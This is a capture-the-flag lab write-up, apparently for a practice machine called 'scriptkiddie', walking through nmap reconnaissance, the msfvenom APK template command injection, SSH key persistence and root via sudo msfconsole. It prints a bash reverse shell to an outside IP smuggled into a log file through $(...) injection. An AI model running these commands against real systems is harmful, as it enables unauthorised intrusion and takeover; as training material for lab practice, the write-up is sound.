

## Reconnaissance
```
$sudo nmap -sS -sV 10.129.138.106
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 5000 we are welcomed by this page:


The payloads tool says: 'venom it up - gen rev tcp meterpreter bins' so it is propably msfvenom doing the work here.
There is also the possibility to upload template files and to select android as the OS. The template file threw me a little off because I haven't seen that for msfvenom before so I research template files, msfvenom and android and find a popular vulnerability which is described [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).

## User

There is also a metasploit module which we will use to make things even easier:

`msfconsole`
```
use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
We only need to set LHOST and LPORT and hit run. We can then upload the generated .apk to the website as an android template. The LPORT on the website doesn't matter as long as it's not empty.

We set up our Listener at 4444 or whichever LPORT we set in the msfconsole.

The reverse shell we get is a little bit ugly so we use `ssh-keygen` to create a new key-pair. We then proceed to echo our public key into the `authorized_keys` file on the scriptkiddie machine.

We can now use the created private key to connect to the machine via ssh to have a stable shell:
```
ssh -i id_rsa kid@10.129.157.245

```

We can now grab the `user.txt`

## Root

We quickly find another user in the /home directory called `pwn`, he also has a suspicous looking script which we can read:

scanloser.sh
```sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script reads `/home/kid/logs/hackers` and executes whatever is in there. We can abuse this by writing into `/home/kid/logs/havkers`.
But we don't have write privileges so how do we do that?

After enumerate more we find that in the `/home/kid/html/app.py` it says that the searchsploit module from the webapp writes to that file whenever an error occurs so let's try that.

Nothing happens... however if we now write our payload to the file we instantly get our reverse shell:

```sh
echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.105/4242 0>&1")' > /home/kid/logs/hackers
```

```sh
pwn@scriptkiddie:~$ whoami
whoami
pwn
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Sweet we can run metasploit as root:

```sh
$sudo msfconsole

whoami
root
```
